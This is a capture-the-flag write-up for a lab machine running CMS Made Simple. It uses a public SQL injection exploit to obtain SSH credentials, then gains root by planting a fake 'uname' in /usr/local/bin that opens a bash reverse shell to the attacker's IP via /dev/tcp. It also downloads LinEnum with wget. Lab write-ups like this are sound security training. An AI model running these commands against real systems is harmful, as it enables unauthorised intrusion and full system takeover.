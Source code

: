 ```yaml
---
title: Writeup
date: 2025-05-12
tags: [easy, linux]
---
```

### Task 1

Submit user flag.

Opening the browser to the IP address of the target it is revealed that the web site uses DDoS protection.

![alt text](image-w-2.png)

Navigating to ``/robots.txt`` we can see that there is a path called ``writeup/``. 

![alt text](image-w-3.png)

The ``writeup/`` path shows the following page:

![alt text](image-w-4.png)

Running ``whatweb`` against the website ``whatweb <target_ip>/writeup -v`` we find the CMS to be ``CMS Made Simple``.

![alt text](image-w-5.png)

We can then try the directories used which can be found at ``http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/``. 

Trying out the path ``admin/`` we get a pop-up to authenticate, default credentials ``username=admin`` and ``password=admin`` did not get us in.

![alt text](image-w-6.png)

Next, other directories are being tried to find the version of the CMS. At ``doc/CHANGELOG.txt`` we found that the version is 2.2.9.1.

![alt text](image-w-7.png)

Using ``searchsploit CMS Made Simple`` we search for exploits and find versions lower than 2.2.10 are vulnerable to SQL Injection.

![alt text](image-w-8.png)

We can then copy the exploit from searchsploitby running ``searchsploit -m php/webapps/46635.py`` and run it by ``python3 46635.py -u http://<target_ip>/writeup/ -c -w rocktou.txt`` where the -c switch is specified to crack the detected password. The script detects the credentials which we can then use for the admin login prompt. This did not work but after trying ssh with the same credentials ``ssh <username>@<target_ip>`` we get in and find the user flag on the home directory of the user by ``cat user.txt``.  

<!--truncate--> 

### Task 2

Submit root flag.

To see if we can exploit any vulnerabilities on the target machine we run the script for Linux Enumeration. After getting the bash file on the host machine, we open a server on port 8000, on the directory we downloaded the file to, using the command  
`python3 -m http.server 8000`

On the target machine we run  
`wget http://10.10.14.85:8000/LinEnum.sh -O /tmp/LinEnum.sh`

After running the script, we find the user being on the staff group which allows users to add local modifications to the system (`/usr/local`) without needing root privileges. This means if root runs a script or command, and that command is resolved to your version in `/usr/local/bin`, it will run your code as root.

![alt text](image-w-9.png)  

We run the following to see which services or scripts might be impacted by `/usr/local/bin`:
`grep -r "/usr/local/bin" /etc/profile* /etc/bash.bashrc /etc/pam.d /etc/update-motd.d 2>/dev/null`.
We confirm that `/usr/local/bin` is part of the `PATH` environment and that the update-motd system executes `uname`. Then, we verify that `/etc/update-motd.d/10-uname` indeed runs `uname`, meaning it could execute our payload if replaced:

![alt text](image-w-10.png)

Since `/usr/local/bin` comes first in the `PATH`, we can hijack `uname` with our own reverse shell payload.

We first start a listener on our machine:  
`nc -lvnp 4444`

Then we overwrite `uname` with a malicious script in `/usr/local/bin/uname`:  
`echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.10.14.85/4444 0>&1' > /usr/local/bin/uname`  
`chmod +x /usr/local/bin/uname`

Now, when the system runs `uname` during SSH login, it executes our reverse shell and gives us a root shell.

Once the reverse shell connects back, we are root and we can read the root flag. 
`cd /root`  
`cat root.txt`

![alt text](image-w-11.png)  
